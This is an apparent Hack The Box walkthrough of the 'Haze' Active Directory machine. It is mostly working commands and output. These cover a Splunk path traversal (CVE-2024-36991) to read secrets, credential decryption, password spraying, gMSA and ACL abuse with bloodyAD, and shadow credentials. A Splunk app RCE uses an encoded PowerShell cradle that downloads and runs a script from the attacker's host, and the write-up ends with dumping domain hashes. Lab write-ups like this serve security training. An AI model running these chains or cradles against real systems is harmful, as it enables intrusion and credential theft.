



## Entry

As its Windows AD machine we can start with `nxc` 


we got nothing special yet. At least we learnt DC name is DC01 and domain name is haze.htb.

Now we can also generate /etc/hosts file with `nxc`

```bash
sudo nxc smb 10.10.11.61 --generate-hosts-file /etc/hosts
```


Okey lets start nmap scan and see if somethings different happenning.

### nmap

```bash
nmap -sC -sV -Pn 10.10.11.61 -vv
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-26 18:07:08Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  http          syn-ack ttl 127 Splunkd httpd
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.11.61:8000/en-US/account/login?return_to=%2Fen-US%2F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: E60C968E8FF3CC2F4FB869588E83AFC6
8088/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
8089/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
|_http-title: splunkd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
```

Nice!!! we have web server here on port **8000** and its `Splunk`


at this situtaion we dont know what version is this but we can check some `Splunk` vulns to check some something without authentication.

https://advisory.splunk.com/advisories


is it could be CVE-2024-36991 ??? we will see.

https://www.vicarius.io/vsociety/posts/exploiting-path-traversal-in-splunk-cve-2024-36991


Fun fact is → we can verify it really fast.

### CVE-2024-36991

```bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd
```


We can read yes but we have to know what we have to read for this machine?.

Lets say if we can read more files we still dont know if its important / not important.

```bash
➜  Haze curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../Windows/System32/drivers/etc/hosts
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost

```

But again we dont know what we have to look for so lets search something before ***look for a needle in a haystack***

### Splunk-Secret

https://community.splunk.com/t5/Knowledge-Management/What-is-the-splunk-secret-file-and-is-it-possible-to-change-it/m-p/331207 


and lets see if we can read secret.

```bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret
```



https://github.com/HurricaneLabs/splunksecrets

and i found it to decrypt it lets see if its usefull.

```bash
➜  Haze pipx install splunksecrets
  installed package splunksecrets 1.1.0, installed using Python 3.13.3
  These apps are now globally available
    - splunksecrets
done! ✨ 🌟 ✨
```


but i saw there we need something more and more. so we have to extract something more

Lets try to extract some usernames.

```bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf
➜  Haze curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=

```

and here

```bash
➜  Haze curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/server.conf           
[general]
serverName = dc01
pass4SymmKey = $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA==

[sslConfig]
sslPassword = $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw==
```

and lets see now if its decyrpt.

```bash
➜  Haze splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY='
Ld@p_Auth_Sp1unk@2k24
➜  Haze splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA=='
changeme
➜  Haze splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw=='
password
```

### Easy win
https://gist.github.com/milo2012/4edf7c4257da4368113a5ccfee048f1f

```sh
➜  Haze python3 splunk.py -u http://haze.htb:8000/                                           
[+] Checking if target is a Splunk server...
[+] Target is a Splunk server.
[+] Target is running on Splunk Enterprise None
[+] Attempting to retrieve splunk.secret...
[+] splunk.secret retrieved successfully.
[+] Attempting to retrieve hash values...

[+] server.conf:
sslKeysfilePassword: Not found
sslPassword: $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw== -> Decrypted: password
pass4SymmKey: $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA== -> Decrypted: changeme

[+] authentication.conf:
authType: LDAP
bindDN: CN=Paul
bindDNpassword: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY= -> Decrypted: Ld@p_Auth_Sp1unk@2k24
```

and we got it lets see where `Ld@p_Auth_Sp1unk@2k24` is working cause its seems like more interesting and potentially password right?

### Enum AD

i will try with **Paul Taylor** off  course cause we decyrpt from him.

```bash
➜  Haze nxc smb DC01.haze.htb -u Paul.Taylor -p 'Ld@p_Auth_Sp1unk@2k24'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\Paul.Taylor:Ld@p_Auth_Sp1unk@2k24
```

Nice!!!!!!!! Now we can extract usernames, look at descriptions and check if we can dump BH data.

Here is the most important part of this machine!!!!


we cant get any users with `--users` options but can grab some usernames with `--rid-brute` lets check whats the difference then we can continue cause i think thats really important.

### users and rid-brute difference

| Feature | `--users` | `--rid-brute` |
| --- | --- | --- |
| Purpose | Lists user accounts via SAMR | Enumerates all objects via SID brute-forcing |
| Output | Usually only users | Users, groups, computers, aliases, etc. |
| ACL restrictions | Yes, often restricted | Less restricted, more stealthy |
| Useful for | Confirming valid logins | Enumerating full domain structure |

Anyway we got some users tho we can do password spray now!!!

```bash
➜  Haze cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2            
Administrator
Guest
krbtgt
DC01$
paul.taylor
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$
➜  Haze cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt
```

and lets do password spray

```bash
nxc smb 10.10.11.61 -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
```


nice we got another user and now if i run `--users` option it will be more stable.

```bash
nxc smb 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --users 
```


Probably our user `paul.taylor` accounts is restricted.

### Bloodhound Data

Lets try to dump BH data if we can.

```bash
➜  Haze nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --bloodhound --dns-server 10.10.11.61 --collection all
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             Resolved collection methods: rdp, group, trusts, acl, container, localadmin, objectprops, psremote, dcom, session
LDAP        10.10.11.61     389    DC01             Done in 00M 20S
LDAP        10.10.11.61     389    DC01             Compressing output into /home/elliot/.nxc/logs/DC01_10.10.11.61_2025-06-26_075314_bloodhound.zip
```

Lets see what mark.adams can do or something specail at BH.


First!!!! we are member of Remote Management Users so we can use evil-winrm

```bash
➜  Haze nxc winrm DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' 
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.10.11.61     5985   DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)
```

but not user.txt yet

```bash
➜  Haze evil-winrm -i DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents> cd ..
*Evil-WinRM* PS C:\Users\mark.adams> cd Desktop
*Evil-WinRM* PS C:\Users\mark.adams\Desktop> dir
*Evil-WinRM* PS C:\Users\mark.adams\Desktop> 
```

### **GMSA_MANAGERS**

lets see we are member of **GMSA_MANAGERS.** We can try to read read GMSA 

```bash
nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
```


i think we have to do something more before done.

but we got name of the account we will read GMSA password right? so i will also try with CS.

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/GMSAPasswordReader.exe --AccountName "Haze-IT-Backup$"
```

U can find here https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/GMSAPasswordReader.exe



Okey lets do more search. I did huge research here and i will show u in show review.

We have only one service account and as the `gMSA manager`, we can query their credentials **only** **only only only** if the following property is set:

```bash
msDS-GroupMSAMembership
```

Meaning only these members have the ability to query the credentials for that account but we are the `gMSA-Managers`, we need to alter the `msDS-GroupMSAMembership` to also include our users SID by changing the `PrincipalsAllowedToRetrieveManagedPassword` attribute

https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adserviceaccount?view=windowsserver2025-ps

```bash
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity "Haze-IT-Backup" -PrincipalsAllowedToRetrieveManagedPassword gMSA_Managers
*Evil-WinRM* PS C:\Users\mark.adams\Documents> 
```

So all we need is that command.

```bash
➜  Haze nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: 4de830d1d58c14e241aff55f82ecdba1     PrincipalsAllowedToReadPassword: gMSA_Managers
```

now we got it!!!! Haze-IT-Backup$ : 4de830d1d58c14e241aff55f82ecdba1

### Second-time-bloodhound

Once we obtain this, let us acquire another set of bloodhound data:

```bash
nxc ldap DC01.haze.htb -u Haze-IT-Backup$ -H 4de830d1d58c14e241aff55f82ecdba1 --bloodhound --dns-server 10.10.11.61 --collection all
```

now u can see difference.


Lets see our attack vector first!!!


Okey my attack vector is:

We have writeOwner on Support_Services so lets add ourself with bloodyAD → Then give itself full privileges on Support Services → then add ourself in group now we can use Support_Services privileges with HAZE-IT-BACKUP$ so we can retrieve or change password of edward.martin.

1- Lets use set owner with bloodyAD

```bash
➜  Haze bloodyAD --host DC01.haze.htb -d haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 set owner "SUPPORT_SERVICES" Haze-IT-Backup$
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on SUPPORT_SERVICES
```

nice!!! now lets give us Full privileges with GenericAll

```bash
➜  Haze bloodyAD --host DC01.haze.htb -d haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 add genericAll "SUPPORT_SERVICES" Haze-IT-Backup$
[+] Haze-IT-Backup$ has now GenericAll on SUPPORT_SERVICES
```

Nice!!!!!!!! now we can add ourself in group cause we have full privileges.

```bash
➜  Haze bloodyAD --host DC01.haze.htb -d haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 add groupMember "SUPPORT_SERVICES" Haze-IT-Backup$
[+] Haze-IT-Backup$ added to SUPPORT_SERVICES
```

Great now we have full privileges on Group so we can use groups privielges itself.

```bash
certipy-ad shadow auto -username "Haze-IT-Backup$"@haze.htb -hashes 4de830d1d58c14e241aff55f82ecdba1 -account edward.martin
```

but we got this error.


Lets use faketime.

```bash
faketime "$(ntpdate -q haze.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username "Haze-IT-Backup$"@haze.htb -hashes 4de830d1d58c14e241aff55f82ecdba1 -account edward.martin
[SNIP]
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

and now we got it.



i think now we got user.txt

```bash
➜  Haze evil-winrm -i DC01.haze.htb -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> cd ..
*Evil-WinRM* PS C:\Users\edward.martin> cd Desktop
*Evil-WinRM* PS C:\Users\edward.martin\Desktop> type user.txt
df7b7451d7f92323d3dabc0d6881fb9e
```

## Root

at winrm i found something important fastly.


and look at C:\


Lets download it.

unzip it and 

```bash
grep -airC 5 'password'
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-charset = utf8
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-emailAttribute = mail
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-enableRangeRetrieval = 0
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf-groupMappingAttribute = dn
--
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-[general]
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-serverName = dc01
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-pass4SymmKey = $7$u538ChVu1V7V9pXEWterpsj8mxzvVORn8UdnesMP0CHaarB03fSbow==
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-[sslConfig]
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:sslPassword = $7$C4l4wOYleflCKJRL9l/lBJJQEBeO16syuwmsDCwft11h7QPjPH8Bog==
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-[lmpool:auto_generated_pool_download-trial]
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-description = auto_generated_pool_download-trial
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-peers = *
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf-quota = MAX
```

we can use splunk secret again to decyrpt it.

```bash
➜  Splunk splunksecrets splunk-decrypt -S etc/auth/splunk.secret --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='
Sp1unkadmin@2k24
```

admin : `Sp1unkadmin@2k24`


Once we gain access, I researched on remote code execution and came across this: 


i will load my becon here

```bash
➜  Splunk cat shell.ps1 
iwr -usebasicparsing -uri http://10.10.14.36/a.ps1|iex
➜  Splunk cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=%        ➜  Splunk python3 -m http.server 80                                                                                                     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and

```bash
➜  PySplunkWhisperer2 git:(master) python3 PySplunkWhisperer2_remote.py --host haze.htb --port 8000 --username admin --password Sp1unkadmin@2k24 --lhost 10.10.14.36 --payload 'powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=' --scheme http
```

okey nice! after that the command wil crete tar file at our /tmp 

```bash
➜  Haze ls /tmp
config-err-FA8ogw
hsperfdata_elliot
nxc_hosted
ssh-Zo82NckYWTcR
systemd-private-efb61f5c76534ab8907bb62541a61bc0-colord.service-mxK7NZ
systemd-private-efb61f5c76534ab8907bb62541a61bc0-haveged.service-MAqRc0
systemd-private-efb61f5c76534ab8907bb62541a61bc0-ModemManager.service-fM4h7S
systemd-private-efb61f5c76534ab8907bb62541a61bc0-polkit.service-lJeRtD
systemd-private-efb61f5c76534ab8907bb62541a61bc0-systemd-logind.service-BZyAzi
systemd-private-efb61f5c76534ab8907bb62541a61bc0-upower.service-sp6PNB
Temp-d298b7a1-6ade-478d-93e8-b7e8b36bad52
tmp8gp49qy5.tar
```

now we have to upload it at 

http://haze.htb:8000/en-US/manager/search/apps/local

from “Install app from file”


and we got shell

```bash
➜  Splunk nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.11.61] 55202
PS C:\Windows\system32> whoami
haze\alexander.green
```

i checked whoami /all fastly and i saw i got it.

```bash
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### SeImpersonatePrivilege


and bommmm lets dump everything 

```bash
[06/26 09:16:58] beacon> hashdump
[06/26 09:16:58] [*] Tasked beacon to dump hashes
[06/26 09:16:59] [+] host called home, sent: 83198 bytes
[06/26 09:17:02] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06dc954d32cb91ac2831d67e3e12027f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:937e28202a6cdfcc556d1b677bcbe82c:::
paul.taylor:1103:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
mark.adams:1104:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
edward.martin:1105:aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af:::
alexander.green:1106:aad3b435b51404eeaad3b435b51404ee:6b8caa0cd4f8cb8ddf2b5677a24cc510:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9dcbc33adec3bdc8b2334060002ce1b4:::
Haze-IT-Backup$:1111:aad3b435b51404eeaad3b435b51404ee:4de830d1d58c14e241aff55f82ecdba1:::

```

## Creds

| username | password / hash | work at  | from | privileges |
| --- | --- | --- | --- | --- |
| Paul.Taylor | Ld@p_Auth_Sp1unk@2k24 | smb,ldap | splunk.secret | - |
| mark.adams | Ld@p_Auth_Sp1unk@2k24 | winrm | password-spray | GMSA |
| Haze-IT-Backup$ | 4de830d1d58c14e241aff55f82ecdba1 | smb,ldap | GMSA | WriteOwner |
| edward.martin | 09e0b3eeb2e7a6b0d419e9ff8f4d91af | winrm | shadow creds | Backup_Reviewers |
| admin | Sp1unkadmin@2k24 | website | splunk.secret Backup | RCE |

## Extra

[My You Tube video](https://youtu.be/bLleZ_Qjmbc) 
